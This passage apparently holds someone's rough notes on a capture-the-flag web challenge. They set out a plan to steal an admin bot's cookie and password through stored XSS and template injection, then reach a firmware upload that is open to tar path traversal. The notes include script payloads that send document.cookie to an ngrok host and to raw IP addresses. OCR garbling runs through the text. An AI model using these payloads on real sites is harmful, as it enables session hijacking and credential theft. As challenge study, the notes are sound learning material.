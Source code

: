 
134\.209\.22\.191:31193

\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>](#https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)



**Looked at the code, noticed a couple things**: **\(Lets work our way backwards from potential compromise:**

**Looks like I want to use a tarfile with some \.\./\.\. paths to do some directory traversal, hopefully this would work\.\.
**[https://github.com/ptoomey3/evilarc](#https://github.com/ptoomey3/evilarc)


def extract\_firmware\(file\):
tmp  = tempfile\.gettempdir\(\)
path = os\.path\.join\(tmp, file\.filename\)
file\.save\(path\)

if tarfile\.is\_tarfile\(path\):
tar = tarfile\.open\(path, 'r:gz'\)
tar\.extractall\(tmp\)

rand\_dir = generate\(15\)
extractdir = f"\{current\_app\.config\['UPLOAD\_FOLDER'\]\}/\{rand\_dir\}"

**So, to do this, maybe I would need to login as admin\. **

\</nav\>
\<div class="container" style="margin\-top: 20px"\> \{% for report in reports %\} \<div class="card"\>
\<div class="card\-header"\> Reported by : \{\{ report\.reported\_by \}\}
\</div\>
\<div class="card\-body"\>
\<p class="card\-title"\>Module ID : \{\{ report\.module\_id \}\}\</p\>
\<p class="card\-text"\>Issue : \{\{ report\.issue | safe \}\} \</p\>
\<a href="#" class="btn btn\-primary"\>Reply\</a\>
\<a href="#" class="btn btn\-danger"\>Delete\</a\>

**This is what the admin can see\.  He bots to it in the code\.  I need to get him to read my report and XSS him hopefully so I can get to the firmware upload page\.
**
**Looked at the docker starting up, noticed a couple things:
**
Stored in directory: /root/\.cache/pip/wheels/bd/be/27/f4c42e0a9e52b316b05cd1203c375c16782f416dc8153fb755
Successfully built SQLAlchemy\-serializer SQLAlchemy cffi
Installing collected packages: sortedcontainers, certifi, Werkzeug, urllib3, sniffio, PySocks, pycparser, MarkupSafe, itsdangerous, idna, h11, greenlet, click, cachelib, attrs, async\-generator, wsproto, SQLAlchemy, outcome, Jinja2, cffi, trio, SQLAlchemy\-serializer, Flask, cryptography, trio\-websocket, pyOpenSSL, Flask\-SQLAlchemy, Flask\-Session, Flask\-Login, selenium
Successfully installed Flask\-2\.1\.2 Flask\-Login\-0\.6\.1 Flask\-SQLAlchemy\-2\.5\.1 Flask\-Session\-0\.4\.0 Jinja2\-3\.1\.2 MarkupSafe\-2\.1\.1 PySocks\-1\.7\.1 SQLAlchemy\-1\.4\.36 SQLAlchemy\-serializer\-1\.4\.1 Werkzeug\-2\.1\.2 async\-generator\-1\.10 attrs\-21\.4\.0 cachelib\-0\.7\.0 certifi\-2021\.10\.8 cffi\-1\.15\.0 click\-8\.1\.3 cryptography\-37\.0\.2 greenlet\-1\.1\.2 h11\-0\.13\.0 idna\-3\.3 itsdangerous\-2\.1\.2 outcome\-1\.1\.0 pyOpenSSL\-22\.0\.0 pycparser\-2\.21 selenium\-4\.1\.5 sniffio\-1\.2\.0 sortedcontainers\-2\.4\.0 trio\-0\.20\.0 trio\-websocket\-0\.9\.2 urllib3\-1\.26\.9 wsproto\-1\.1\.0
**SQLAlchemy \- maybe there is something to use there**?
OOH SQL Injection\.\.\. fixed in version 1\.3\.0b3\. That is super old, this is 1\.4\.36\.
**Nothing else of interest I don't think\.\.**

ENV PYTHONDONTWRITEBYTECODE=1
^^^ This just doesn't write pyc files

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

**So, I think I have a plan\.  I need to leak the Admin password

This means, I need to have him visit /review

Luckily, it looks like he does this for me:
**
client\.get\('[http://localhost:1337/')](#http://localhost:1337/')


username = client\.find\_element\_by\_id\('username'\)
password = client\.find\_element\_by\_id\('password'\)
login = client\.find\_element\_by\_id\('login\-btn'\)

username\.send\_keys\(current\_app\.config\['ADMIN\_USERNAME'\]\)
password\.send\_keys\(current\_app\.config\['ADMIN\_PASSWORD'\]\)
login\.click\(\)
time\.sleep\(3\)

client\.get\('[http://localhost:1337/review')](#http://localhost:1337/review')


**

I think for this, I need to be able to get the admin password with something like:


But I need to hold this in a javascript variable, then load the page

Something like :
username :

****\<div\>"test"\<div\>****



\<script\>d=document;d\.location='**[**https://216.93.199.231/?c='+d.cookie;</script>**](#https://3e1b-216-93-199-231.ngrok.io/?c='+document.cookie;</script>)
**

And then put this in the report maybe:
**
a\{\{config\.ADMIN\_PASSWORD\}\}a


**I need to report an issue, and get data into this template, probably via the username: 

**\{% for report in reports %\}
\{\{ report\.reported\_by \}\}
\{\{ report\.issue | safe \}\}

**This will be the cookie theft probably\.\.**


Hmm, idk maybe\. putting that huge javascript in my name doesn't seem to do it\.

**
**
await fetch\(\`/api/$\{intent\}\`, \{
method: 'POST',
headers: \{
'Content\-Type': 'application/json',
\},
body: JSON\.stringify\(data\),
\}\)
\.then\(\(response\) =\> response\.json\(\)
\.then\(\(resp\) =\> \{
card\.attr\("class", "alert alert\-danger"\);
if \(response\.status == 200\) \{
card\.attr\("class", "alert alert\-info"\);
if \(intent == 'login'\) \{
window\.location\.href = '/dashboard';
\} else \{
setTimeout\(\(\) =\> \{
window\.location\.href = '/'
\}, 1000\);
\}
\}
card\.text\(resp\.message\);
card\.show\(\);
\}\)\)


username:
\<div id="aa"\>\{\{config\.ADMINPASSWORD\}\}\</div\>
issue:
\<script\>document\.location='https://1\.2\.3\.4/?c='\+document\.getElementById\('aa'\);\</script\>
